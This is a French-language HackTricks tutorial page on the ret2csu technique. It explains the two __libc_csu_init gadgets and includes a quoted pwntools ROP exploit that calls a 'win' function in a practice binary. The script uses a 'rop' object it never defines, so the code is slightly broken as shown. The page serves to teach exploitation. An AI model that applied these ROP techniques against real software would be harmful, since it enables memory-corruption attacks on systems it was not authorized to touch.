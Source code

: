 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**ret2csu** est une technique de hacking utilisée lorsque vous essayez de prendre le contrôle d'un programme mais que vous ne pouvez pas trouver les **gadgets** que vous utilisez habituellement pour manipuler le comportement du programme.&#x20;

Lorsqu'un programme utilise certaines bibliothèques (comme libc), il dispose de certaines fonctions intégrées pour gérer la façon dont différentes parties du programme communiquent entre elles. Parmi ces fonctions, il y a quelques pépites cachées qui peuvent agir comme nos gadgets manquants, en particulier un appelé `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

Dans `__libc_csu_init`, il y a deux séquences d'instructions (nos "gadgets magiques") qui se distinguent :

1. La première séquence nous permet de configurer des valeurs dans plusieurs registres (rbx, rbp, r12, r13, r14, r15). Ce sont comme des emplacements où nous pouvons stocker des nombres ou des adresses que nous voulons utiliser plus tard.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Ce gadget nous permet de contrôler ces registres en dépilant des valeurs de la pile dans ceux-ci.

2. La deuxième séquence utilise les valeurs que nous avons configurées pour faire quelques actions :
* **Déplacer des valeurs spécifiques dans d'autres registres**, les rendant prêtes à être utilisées comme paramètres dans des fonctions.
* **Effectuer un appel à un emplacement** déterminé en additionnant les valeurs dans r15 et rbx, puis en multipliant rbx par 8.
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## Exemple

Imaginez que vous souhaitiez effectuer un syscall ou appeler une fonction comme `write()` mais que vous ayez besoin de valeurs spécifiques dans les registres `rdx` et `rsi` en tant que paramètres. Normalement, vous chercheriez des gadgets qui définissent ces registres directement, mais vous ne pouvez en trouver aucun.

Voici où **ret2csu** entre en jeu :

1. **Configurer les Registres** : Utilisez le premier gadget magique pour extraire des valeurs de la pile et les placer dans rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) et r15.
2. **Utiliser le Deuxième Gadget** : Avec ces registres configurés, vous utilisez le deuxième gadget. Cela vous permet de déplacer vos valeurs choisies dans `rdx` et `rsi` (à partir de r14 et r13, respectivement), préparant les paramètres pour un appel de fonction. De plus, en contrôlant `r15` et `rbx`, vous pouvez faire en sorte que le programme appelle une fonction située à l'adresse que vous calculez et placez dans `[r15 + rbx*8]`.

Vous avez un [**exemple utilisant cette technique et l'expliquant ici**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), et voici l'exploit final qu'il a utilisé :
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Notez que l'exploit précédent n'est pas destiné à faire un **`RCE`**, il est juste destiné à appeler une fonction appelée `win` (prenant l'adresse de `win` depuis stdin en appelant gets dans la chaîne ROP et en la stockant dans r15) avec un troisième argument ayant la valeur `0xdeadbeefcafed00d`.
{% endhint %}

### Pourquoi ne pas simplement utiliser libc directement ?

Généralement, ces cas sont également vulnérables à [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), mais parfois vous devez contrôler plus de paramètres que ceux qui peuvent être facilement contrôlés avec les gadgets que vous trouvez directement dans libc. Par exemple, la fonction `write()` nécessite trois paramètres, et **trouver des gadgets pour définir tous ceux-ci directement peut ne pas être possible**.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
